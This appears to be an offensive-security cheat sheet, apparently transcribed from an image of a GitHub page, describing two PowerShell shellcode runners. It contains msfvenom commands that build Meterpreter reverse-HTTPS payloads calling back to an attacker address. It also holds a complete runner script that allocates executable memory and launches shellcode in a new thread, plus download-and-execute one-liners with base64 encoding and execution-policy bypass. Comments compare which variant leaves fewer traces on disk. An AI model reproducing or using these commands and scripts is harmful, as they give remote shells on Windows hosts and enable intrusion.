 #### Basic PowerShell Runner:

    //not great - creates temp files on disk due to Add-Type
    //Generate:
    msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.45.208 LPORT=443 EXITFUNC=thread -f ps1
    //Usage:
    powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.45.208/runner.txt') | IEX"

    ###########Runner (runner.txt/ps1):#############
    $Kernel32 = @"
    using System;
    using System.Runtime.InteropServices;
    public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
    }
    "@
    Add-Type $Kernel32
    [Byte[]] $buf = 0xfc,0xe8,0x8f,.............................
    $size = $buf.Length
    [IntPtr]$addr = [Kernel32]::VirtualAlloc(0,$size,0x3000,0x40);
    [System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $size)
    $thandle=[Kernel32]::CreateThread(0,0,$addr,0,0,0);
    [Kernel32]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")

#### Basic PowerShell Runner #2:

    //slightly better - doesn't create temp files like #1
    //Generate:
    msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
    //to override proxy:  msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=8080 EXITFUNC=thread -f ps1

    //64bit (just different shellcode/listener):
    msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f ps1
    //to override proxy:  msfvenom -p windows/x64/meterpreter/reverse_https LHOST=tun0 LPORT=8080 EXITFUNC=thread -f ps1

    //To Invoke:
        powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.45.208/runner.txt') | IEX
        //Or:
            pwsh
            $text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.45.210/run.txt') | IEX"
            $bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
            $EncodedText = [Convert]::ToBase64String($bytes)
            $EncodedText
            cmd.exe /c powershell -ep bypass -enc .....
